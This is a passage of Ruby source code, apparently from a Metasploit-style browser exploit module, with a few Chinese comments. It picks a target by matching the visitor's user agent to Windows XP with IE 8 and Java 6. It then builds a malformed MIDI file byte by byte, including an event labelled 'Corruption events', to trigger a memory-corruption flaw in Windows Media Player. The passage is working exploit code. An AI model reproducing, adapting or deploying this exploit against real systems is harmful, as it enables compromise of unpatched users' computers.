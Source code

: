 ```ruby
		elsif agent =~ /NT 5\.1/ and agent =~ /MSIE 8\.0/
			#Windows XP SP3 + IE 8.0 + JRE6
			return targets[3]
		else
			return nil
		end
	end

	def get_midi
		# MIDI Fileformat Reference:
		# http://www.sonicspot.com/guide/midifiles.html
		#
		# Event Types:
		# 0x08 = Note Off (when MIDI key is released)
		# 0x09 = Note On (when MIDI key is pressed)
		# 0x0A = Note aftertouch (pressure change on the pressed MIDI key)
		# 0x0B = Controller Event (MIDI channels state)
		# 0x0C = Program change (Which instrument/patch should be played on the MIDI channel)
		# 0x0D = Channel aftertouch (similar to Note Aftertouch; effects all keys pressed on the specific MIDI channel)
		# 0x0E = Pitch Bend (similiar to a controller event; has 2 bytes to describe its value)
		# 0x0F = Meta Events (not sent or received over a midi port)

		# Structure:
		# [Header Chunk][Track Chunk][Meta Event][Meta Event][SYSEX Event][Midi Channel Event)
		# Problem:
		# Windows Media Player fails to manage Note On and Note Off Events

		# Track Chunk Data
		tc = "\x00\xFF\x03\x0D\x44\x72\x75\x6D" #没懂
		# Meta Event - Sequence/Track Name
		tc << "\x73\x20\x20\x20\x28\x42\x42\x29\x00"  #曲名块
		# Midi Channel Event - Program Change
		tc << "\x00\xC9\x28"
		# Midi Channel Event - Controller
		tc << "\x00\xB9\x07\x64"
		# Midi Channel Event - Controller
		tc << "\x00\xB9\x0A\x40"
		# Midi Channel Event - Controller
		tc << "\x00\xB9\x7B\x00"
		# Midi Channel Event - Controller
		tc << "\x00\xB9\x5B\x28"
		# Midi Channel Event - Controller
		tc << "\x00\xB9\x5D\x00"
		# Midi Channel Event - Note On
		tc << "\x85\x50\x99\x23\x7F"

		# Corruption events
		# Midi Channel Event - Note On
		tc << "\x00\x9F\xb2\x73"
		# Ends Corruption events

		# Meta Event - End Of Track
		tc << "\x00\xFF\x2F\x00"
		m = ''
		# HEADERCHUNK Header  头块
		m << "MThd"                 # Header
		m << "\x00\x00\x00\x06"     # Chunk size
		m << "\x00\x00"             # Format Type
		m << "\x00\x01"             # Number of tracks
		m << "\x00\x60"             # Time division
		# TRACKCHUNK header    音轨块 
		m << "MTrk"                 # Header
```